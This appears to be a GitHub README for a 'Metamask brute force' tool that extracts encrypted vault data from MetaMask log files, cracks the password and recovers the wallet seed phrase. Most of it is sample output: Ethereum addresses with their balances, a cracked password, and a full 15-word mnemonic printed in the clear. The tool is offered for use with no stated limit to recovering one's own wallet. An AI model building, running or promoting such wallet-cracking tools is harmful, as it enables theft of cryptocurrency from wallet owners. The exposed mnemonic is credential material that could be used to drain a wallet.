 # Metamask brute force

This program extracts vault data from a MetaMask log files , performs brute-force on it and extracts the mnemonic.

Starting processing in directory: C:\metamaskbrut

Processing file: C:\metamaskbrut\000233.log

Vault extracted and saved to file: C:\metamaskbrut\000233.log.hash

Ethereum address found: 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2

Balance for address 0x3b74B91360d7c1B59DC157dCfe01aBae72557df2: 0.03913388434350565 ETH


Processing file: C:\metamaskbrut\00023664.log

Vault extracted and saved to file: C:\metamaskbrut\00023664.log.hash

Ethereum address found: 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8

Balance for address 0xbd8ba29bbfeccb987c52451c222b387f1e2b03a8: 0.00000000000000000 ETH


Processing complete.
Found 2 .hash file(s).

Processing file: .\000233.log.hash
Valid vaults loaded: 1

File processed. Passwords tried: 9  |  Vaults decrypted: 0  |  Speed: 0.00 p/s  |  Time elapsed: 0 sec

Processing file: .\00023664.log.hash
Valid vaults loaded: 1

Decrypted Vault: '{"data":"VtfsMLY/5cCEBtd+5LxrKUFLVJAXnTN1t4O+3W3RgU6Xce6Vh0C2Jst...'
Vault Password: 'qwerty12'
mnemonic: youth draw mother patient machine maze young mechanic silver pulse discover phone swear have nest

File processed. Passwords tried: 8  |  Vaults decrypted: 1  |  Speed: 1.14 p/s  |  Time elapsed: 7 sec

Finished.
